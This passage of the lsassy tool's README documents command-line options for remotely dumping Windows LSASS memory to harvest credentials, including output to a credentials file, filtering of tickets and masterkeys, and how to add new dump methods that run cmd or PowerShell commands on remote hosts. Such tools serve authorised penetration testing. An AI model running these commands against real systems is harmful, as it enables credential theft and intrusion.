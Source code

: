 ##### None

Doesn't display the result. Useful when using `--outfile`
```
lsassy [-d domain] -u pixis -p P4ssw0rd targets --format none
```

#### Save in a file

Saves the result in a grepable format in provided file (`--outfile` or `-o`)
```
lsassy [-d domain] -u pixis -p P4ssw0rd targets --format json --outfile /tmp/credentials.txt
```

#### Results filtering

If you want to only get users credentials, filtering out computers credentials, you can use `--users` flag
```
lsassy [-d domain] -u pixis -p P4ssw0rd targets --users
```

If you don't want tickets to be exported, you can use `--no-tickets` flag

```
lsassy [-d domain] -u pixis -p P4ssw0rd targets --no-tickets
```

If you don't want masterkeys to be exported, you can use `--no-masterkeys` flag

```
lsassy [-d domain] -u pixis -p P4ssw0rd targets --no-masterkeys
```

#### Thread management

You can decide how many thread you want to use \[1-256\] using `--threads` parameter.

```
lsassy [-d domain] -u pixis -p P4ssw0rd targets --threads 32
```


## Add dump method

There is a **dummy.py.tpl** file in **dumpmethod** directory. This file contains basic structure to create a new dump method functionnality.

### get_commands

This method is mandatory as it is the method that will be used to execute code on the remote host in order to dump lsass in some way. It **must** return a dictionnary with two items **cmd** and **pwsh**.

**cmd** command is a command understood by **cmd.exe** utility
**pwsh** command is a command understood by powershell (most of the time, **cmd** command is also valid in powershell)

```python
return {
    "cmd": cmd_command,
    "pwsh": pwsh_command
}
```
